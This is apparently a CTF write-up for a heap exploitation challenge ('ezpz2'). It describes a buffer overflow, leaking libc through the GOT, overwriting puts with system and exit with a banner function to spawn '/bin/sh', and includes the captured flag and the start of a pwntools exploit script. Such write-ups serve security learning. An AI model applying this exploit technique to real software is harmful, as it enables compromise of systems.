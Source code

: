 ```python
_create()
_set("1", win)

_ask("0")

p.interactive()
p.close()
```


ezpz2
==========================================================
General overview:
----------------------------------------------------------
1. Could write into heap using buffer overflow in set_question() function
2. Leaked the address for puts() in libc by writing it's GOT address into heap buffer and using ask_question() to derefence it.
3. Used the puts() address to find the libc base. Used libc base to find system()
4. Used the print_banner() function (which behaved very similarly to win() from ezpz1) to pop a shell
    * Replaced puts() in GOT with system() from libc
    * Wrote "/bin/sh\x00" to the banner buffer
    * Replaced exit() in GOT with print_banner()
5. After replacing these functions, I just had to invoke exit() (I chose exit() as it wasn't called normally, so I wouldn't have a confusing flow of execution.)

Flag:
----------------------------------------------------------
    FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNy1lenB6MiIsImlwIjoiMTAxLjE2NC4zMy4yMTkiLCJzZXNzaW9uIjoiYzcwY2Q2ODAtMDEyZi00ZmZiLTliYmItYWNmZmNhMTljZGQyIn0.cuU8HM08HtQrLuJ2zeT69zz9F9nXrzz8vBXOj23qhoY}

Script used:
----------------------------------------------------------

```python
#!/usr/bin/env python2

from pwn import *

global p

####################################
# HELPER FUNCTIONS FOR THE PROGRAM #
def _create():
    p.sendlineafter("): ", "c")

def _delete(id):
    p.sendlineafter("): ", "d")
    p.sendlineafter("id: ", id)

def _set(id, question):
    p.sendlineafter("): ", "s")
    p.sendlineafter("id: ", id)
    p.sendlineafter("question: ", question)

def _ask(id, flag):
    p.sendlineafter("): ", "a")
    p.sendlineafter("id: ", id)

    # if the flag is set, return the output
    if (not flag): 
        return ""

    p.recvuntil(": '")
    return p.recvuntil("'", drop=True)
```
